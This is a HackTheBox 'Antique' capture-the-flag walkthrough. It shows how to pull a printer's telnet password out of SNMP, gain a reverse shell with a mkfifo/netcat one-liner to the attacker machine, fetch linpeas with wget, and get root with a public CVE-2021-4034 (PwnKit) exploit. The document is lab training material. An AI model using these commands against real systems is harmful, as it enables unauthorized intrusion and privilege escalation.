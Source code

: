 ```yaml
---
title: "HackTheBox Antique Walkthrough"
date: "2022-06-14"
categories: 
  - "htb-walkthroughs"
coverImage: "image-9.png"
---
```


Here's a result of the NMAP Scan.

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|\_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=6/12%Time=62A625D0%P=x86\_64-pc-linux-gnu%r(NULL
SF:,F,"\\nHP\\x20JetDirect\\n\\n")%r(GenericLines,19,"\\nHP\\x20JetDirect\\n\\nPas
SF:sword:\\x20")%r(tn3270,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(GetReq
SF:uest,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(HTTPOptions,19,"\\nHP\\x2
SF:0JetDirect\\n\\nPassword:\\x20")%r(RTSPRequest,19,"\\nHP\\x20JetDirect\\n\\nPa
SF:ssword:\\x20")%r(RPCCheck,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(DNS
SF:VersionBindReqTCP,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(DNSStatusR
SF:equestTCP,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(Help,19,"\\nHP\\x20J
SF:etDirect\\n\\nPassword:\\x20")%r(SSLSessionReq,19,"\\nHP\\x20JetDirect\\n\\nPa
SF:ssword:\\x20")%r(TerminalServerCookie,19,"\\nHP\\x20JetDirect\\n\\nPassword:
SF:\\x20")%r(TLSSessionReq,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(Kerbe
SF:ros,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(SMBProgNeg,19,"\\nHP\\x20J
SF:etDirect\\n\\nPassword:\\x20")%r(X11Probe,19,"\\nHP\\x20JetDirect\\n\\nPasswor
SF:d:\\x20")%r(FourOhFourRequest,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r
SF:(LPDString,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(LDAPSearchReq,19,
SF:"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(LDAPBindReq,19,"\\nHP\\x20JetDire
SF:ct\\n\\nPassword:\\x20")%r(SIPOptions,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x
SF:20")%r(LANDesk-RC,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(TerminalSe
SF:rver,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(NCP,19,"\\nHP\\x20JetDire
SF:ct\\n\\nPassword:\\x20")%r(NotesRPC,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20
SF:")%r(JavaRMI,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(WMSRequest,19,"
SF:\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(oracle-tns,19,"\\nHP\\x20JetDirect
SF:\\n\\nPassword:\\x20")%r(ms-sql-s,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")
SF:%r(afp,19,"\\nHP\\x20JetDirect\\n\\nPassword:\\x20")%r(giop,19,"\\nHP\\x20JetD
SF:irect\\n\\nPassword:\\x20");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/12%OT=23%CT=1%CU=38853%PV=Y%DS=2%DC=T%G=Y%TM=62A6267
OS:9%P=x86\_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

nmap -sU 10.10.11.107

PORT    STATE SERVICE
161/udp open  snmp

We have TCP port 23 open and UDP port 161 open.

telnet 10.10.11.107

[![](images/image-2.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-2.png)

We need a password, the password might be sent over in clear text.

10.10.11.107 is connected to a HP JetDirect printer. I found a well written article about printer security. [https://www.irongeek.com/i.php?page=security/networkprinterhacking](https://www.irongeek.com/i.php?page=security/networkprinterhacking)

I'm going to leverage snmpget to try and find a password.

snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0

iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135

snmp-get is returning something in hexadecimal. Lets convert it to ASCII and see if we find anything.

![](images/image-5.png)

We got a password! Lets telnet in and see what else we can do.

Telnet has an exec option enabled, we can execute commands. Lets try and get a reverse shell going.

I got a one liner from [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \[ip\] \[port\] >/tmp/f

We also need to start a netcat listener on our kali machine.

nc -lnvp 4444

[![](images/image-8-1024x661.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-8.png)

We're in and we have our first user flag!

As always, the next step is to run linpeas to see what we can exploit to escalate privilege to root.

python -m SimpleHTTPServer 6666

And on the victim machine.

wget 10.10.14.19:6666/linpeas.sh
./linpeas.sh

[![](images/image-9-1024x579.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-9.png)

The machine is vulnerable to CVE-2021-4034

Clone a POC on your kali machine.

git clone https://github.com/berdav/CVE-2021-4034.git

Again, run a simplehttpserver.

python -m SimpleHTTPServer 6666

This time we want to fetch everything in the folder so we'll use a recursive option.

wget -r 10.10.14.19:6666
make
./cve-2021-4034

make and run the CVE.

[![](images/image-10.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-10.png)

And we're root!
